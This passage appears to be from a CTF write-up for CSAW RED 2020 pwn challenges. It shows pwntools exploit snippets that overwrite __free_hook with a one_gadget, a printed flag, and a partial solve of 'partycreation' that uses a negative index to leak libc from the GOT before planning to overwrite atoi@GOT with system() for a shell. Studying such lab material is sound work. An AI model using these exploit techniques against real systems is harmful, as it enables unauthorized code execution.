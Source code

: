 ```python
edit_robot(3, libc.sym["__free_hook"], 0x43434343)
edit_robot(0, libc.address + one_gadgets[1], 0)
remove_friend(1)
```

## Flag
```
flag{d03s_s0urc3_3v3n_h3lp}
```

# pwn - partycreation
> Hackers assemble !`nc pwn.red.csaw.io 5010`

## Files
- partycreation.c
- partycreation
- libc-2.27&#46;so

## Solution
```
$ checksec partycreation
[*] '/home/darin/ctfs/red-2020/party/partycreation'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Note that `getIntClean()` uses `atoi()` to get an integer, meaning we can input negative indices.

```c
int getIntClean(){
    char input[MAXINTLENGTH];
    getInput(MAXINTLENGTH, input);
    return atoi(input);
}
```

Since the binary does not use Full RELRO, we can easily leak and overwrite some GOT values. A good choice is `atoi()`, since it is called with our input as the first argument.

```python
view(-4)
r.recvuntil("Name:         ")
libc.address = u64(r.recvline().strip().ljust(8, b"\x00")) - libc.sym["atoi"]
log.info(f"LIBC @ 0x{libc.address:x}")
```

From here we can use the rename function to write `system()` to `atoi@GOT`, and send `/bin/sh` to get a shell.
